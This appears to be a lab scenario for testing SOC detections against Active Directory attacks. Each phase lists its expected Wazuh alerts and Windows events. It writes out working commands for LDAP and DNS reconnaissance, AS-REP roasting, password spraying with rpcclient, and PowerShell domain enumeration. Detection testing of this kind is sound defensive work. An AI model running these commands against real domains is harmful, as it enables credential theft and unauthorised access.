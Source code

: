 **Duration**: 30-45 minutes  
**Complexity**: Advanced  
**MITRE ATT&CK Techniques**: T1110, T1078, T1003, T1482

### Phase 1: Domain Reconnaissance (10 minutes)

#### 1.1 Domain Information Gathering

```bash
# LDAP enumeration
ldapsearch -x -h 192.168.3.10 -s base namingcontexts
ldapsearch -x -h 192.168.3.10 -b "DC=lab,DC=local" "(objectClass=user)"

# DNS enumeration
dig @192.168.3.10 lab.local ANY
dig @192.168.3.10 _ldap._tcp.lab.local SRV
```

**Expected Detections:**

- LDAP queries from external source
- DNS enumeration attempts
- Wazuh Rule: 40106 (Domain reconnaissance)
- Alert Level: Medium

### Phase 2: Authentication Attacks (15 minutes)

#### 2.1 Kerberos Attacks

```bash
# AS-REP roasting (if users have "Do not require Kerberos preauthentication")
python3 GetNPUsers.py lab.local/ -dc-ip 192.168.3.10 -no-pass -usersfile users.txt

# Password spraying
for user in analyst1 analyst2 soc-admin; do
  rpcclient -U "$user%Password123" 192.168.3.10 -c "getusername"
done
```

**Expected Detections:**

- Kerberos authentication failures
- Multiple logon attempts
- Windows Event 4771 (Kerberos pre-authentication failed)
- Wazuh Rule: 18108 (Kerberos attack)
- Alert Level: High

### Phase 3: Post-Exploitation (20 minutes)

#### 3.1 Domain Enumeration

```powershell
# PowerShell commands (if access gained)
Get-ADUser -Filter * -Properties *
Get-ADGroup -Filter * -Properties *
Get-ADComputer -Filter * -Properties *
Get-GPO -All
```
